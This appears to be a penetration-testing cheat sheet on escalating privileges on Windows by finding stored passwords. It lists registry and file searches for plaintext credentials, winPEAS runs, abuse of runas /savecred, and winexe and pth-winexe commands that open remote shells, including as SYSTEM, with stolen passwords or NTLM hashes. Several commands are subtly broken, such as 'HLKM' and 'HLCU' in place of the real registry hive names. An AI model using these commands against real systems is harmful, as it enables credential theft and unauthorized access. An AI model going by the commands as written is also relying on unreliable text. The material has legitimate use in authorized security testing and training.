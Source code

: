 # Passwords

## Registry

Some programs stores passwords in plaintext in the registry.

Search manually:

```bash
reg query HLKM /f password /t REG_SZ /s
reg query HLCU /f password /t REG_SZ /s
```

Search with winPEAS:

```bash
.\winpeas.exe quiet filesinfo userinfo
```

Found some creds? Spawn a shell with winexe or psexec from Kali:

```bash
winexe -U '$user%$password' //$IPADDRESS cmd.exe

#If the user is and Admin we can get a shell as system:
winexe -U '$user%$password' --system //$IPADDRESS cmd.exe
```

_____

## Saved Creds

Windows has a runas command which allows users to run commands with the privileges of other users. If this credentials are saved we don't need to know them and we can use to execute a binary in the context of that user.

Check for saved creds:

```bash
.\winpeas.exe quiet cmd windowscreds
```

If the output shows that there is a saved password (Currently Stored Credentials) we can run runas command as that user.

Check again with:

```bash
cmdkey /list
```

Then run:

```bash
runas /savecred /user:$user C:\XX\xx.exe
```

_____

## Configuration files

There might be some configuration files in the system with credentials inside (example: unatted.xml).

Search for configuration files:

```bash
#Current directory for files with string "pass"
dir /s *pass* == *.config

#Recursively search for the contents of files in the current directory that contain "password":
findstr /si password *.xml *.ini *.txt
```

Search with winpeas:

```bash
.\winpeas.exe quiet cmd searchfast filesinfo
```
_____

## SAM & SYSTEM

Is there a backup of the SAM & SYSTEM files (C:\Windows\Repair) or (C\Windows\System32\config\RegBack)?

Found any hashes? Spawn a shell:

```bash
pth-winexe -U '$username%LM:NTLM' //$IPADDRESS cmd.exe

#To spawn a system shell:
pth-winexe --system -U '$username%LM:NTLM' //$IPADDRESS cmd.exe
```
